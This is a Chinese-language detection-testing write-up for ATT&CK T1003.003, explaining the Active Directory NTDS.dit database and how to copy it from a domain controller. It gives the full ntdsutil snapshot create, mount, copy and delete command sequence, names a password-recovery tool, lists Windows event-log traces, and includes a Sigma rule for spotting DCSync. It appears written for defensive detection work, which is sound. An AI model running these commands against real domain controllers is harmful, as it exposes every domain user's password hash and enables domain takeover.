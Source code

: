 # T1003-003-win-使用ntdsutil获得NTDS.dit文件

## 来自ATT&CK的描述

攻击者可能试图访问或创建Active Directory域数据库的副本，以便窃取凭据信息，以及获取有关域成员（例如设备，用户和访问权限）的其他信息。默认情况下，NTDS文件（NTDS.dit）位于%SystemRoot%\NTDS\Ntds.dit域控制器中。

除了在活动的域控制器上查找NTDS文件之外，攻击者还可能搜索包含相同或相似信息的备份。

下列工具和技术可用于枚举NTDS文件和整个Active Directory哈希的内容。
- 卷影复制
- secretsdump.py
- 使用内置的Windows工具ntdsutil.exe
- 调用卷影副本

### NTDS.dit

Ntds.dit文件是存储Active Directory数据的数据库，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希值。域控制器（DC）上的ntds.dit文件只能由可以登录到DC的用户访问。很明显，保护这个文件至关重要，因为攻击者访问这个文件会导致整个域沦陷。

**默认情况下，NTDS文件将位于域控制器的％SystemRoot％\NTDS\Ntds.dit中。**但通常存储在其他逻辑驱动器上）。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。

## 测试案例

在2008+域控上使用 ntdsutil snapshot mount导出ntds.dit

### 创建快照

```bash
ntdsutil snapshot  "activate  instance ntds"  create  quit quit
```

### Ntdsutil挂载域快照

```bash
ntdsutil snapshot  "mount {GUID}" quit  quit
```

### 复制快照

```bash
copy C:\$SNAP_201212082315_VOLUMEC$\windows\NTDS\ntds.dit  c:\ntds.dit #注意路径大小写问题
```

### 卸载快照

```bash
ntdsutil snapshot  "unmount {GUID}" quit  quit
```

### 删除快照

```bash
ntdsutil snapshot  "delete {GUID}" quit  quit

ntsutil.exe +PWPR(Passcape Windows Password Recovery)
```

## 检测日志

windows 安全日志

## 测试复现

![ntds1](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/lAeIM9.png)

![ntds2](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/lAeOPO.png)

## 测试留痕

windows 安全日志、4688进程创建、Ntsutil.exe进程名称。

![event_log](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/lAuVDs.png)

## 检测规则/思路

```yml
title: Dumping ntds.dit remotely via DCSync
id: 51238c62-2b29-4539-ad75-e94575368a12
description: ntds.dit retrieving using synchronisation with legitimate domain controller using Directory Replication Service Remote Protocol
author: Teymur Kheirkhabarov, oscd.community
date: 2019/10/24
modified: 2019/11/13
references:
    - https://twitter.com/gentilkiwi/status/1003236624925413376
    - https://gist.github.com/gentilkiwi/dcc132457408cf11ad2061340dcb53c2
    - https://www.slideshare.net/heirhabarov/hunting-for-credentials-dumping-in-windows-environment
tags:
    - attack.credential_access
    - attack.t1003
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4624
        ComputerName: '%DomainControllersNamesList%'
    selection2:
        IpAddress: '%DomainControllersIpsList%'
    selection3:
        EventID: 4662
        ComputerName: '%DomainControllersNamesList%'
        SubjectLogonId: '%SuspiciousTargetLogonIdList%'
        Properties|contains: 
            - '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'
            - '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'
    condition: write TargetLogonId from selection1 (if not selection2) to list %SuspiciousTargetLogonIdList%; then if selection3 -> alert
falsepositives:
    - Legitimate administrator adding new domain controller to already existing domain
level: medium
status: experimental
```

### 建议

检测规则未经过实际验证，谨慎使用。

## 参考推荐

MITRE-ATT&CK-T1003-003

<https://attack.mitre.org/techniques/T1003/003>

域渗透——获得域控服务器的NTDS.dit文件

<https://xz.aliyun.com/t/2187>

NTDS.dit密码快速提取工具

<https://www.secpulse.com/archives/6301.html>

域hash值破解的总结经验

<https://www.cnblogs.com/backlion/p/6785639.html?utm_source=itdadao&utm_medium=referral>
